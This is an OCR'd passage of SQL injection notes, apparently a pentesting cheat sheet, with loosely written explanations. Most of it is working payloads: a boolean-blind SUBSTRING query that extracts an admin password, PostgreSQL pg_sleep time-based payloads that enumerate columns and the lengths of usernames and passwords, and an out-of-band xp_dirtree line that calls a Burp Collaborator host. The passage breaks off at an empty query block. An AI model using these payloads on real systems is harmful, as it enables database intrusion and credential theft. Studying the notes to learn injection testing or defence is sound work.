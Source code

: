 > > > >
> > > > Admin / P@ssw0rd
> > > >
> > > > payload:&#x20;
> > > >
> > > > https://example.com/login.php?id = 1 and SUBSTRING(( select password from users where username= 'Admin'), 1 , 1 ) = 'P'
> > > >
> > > > backend
> > > >
> > > > select login from user where id = 1 and SUBSTRING((select password from users where username='Admin'), 1, 1) = 'y'
> > > >
> > > > so the id is true and the second quert is false whhich result in false  then it will return nothing.
> > > >
> > > > if this true it will return the id 1.
> > >
> > > Time Based Injection
> > >
> > > Where the attacker query response database to pause for a specific period of time after that its will result SQL query successfully execute.
> > >
> > > Example:
> > >
> > > ```
> > > # Payload 1:
> > > payload = """';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--"""
> > >
> > > # Payload 2:
> > > payload = """';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--"""
> > >
> > > Columns:
> > > payload = f"""';SELECT CASE WHEN (column_name='{columnName[0]}') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM information_schema.columns WHERE table_name='users'--"""
> > >
> > > Username:
> > > # Payload 1:
> > > payload = f"""';SELECT CASE WHEN (LENGTH(username) > 12) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"""
> > >
> > > # Payload 2:
> > > payload = f"""';SELECT CASE WHEN (LENGTH(username) > 13) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"""
> > >
> > > Password:
> > > # Payload 1:
> > > payload = f"""';SELECT CASE WHEN (LENGTH(password) > 19) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"""
> > >
> > > # Payload 2:
> > > payload = f"""';SELECT CASE WHEN (LENGTH(password) > 20) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users LIMIT 1--"""
> > > ```
>
> Out of Band Injection
>
> > xp\_dirtree is used in SQL for nslookup'
> >
> > ; exec master ..xp\_dirtree '//BURPCollabirator.net\a'--
> >
> > Query:
> >
> > ```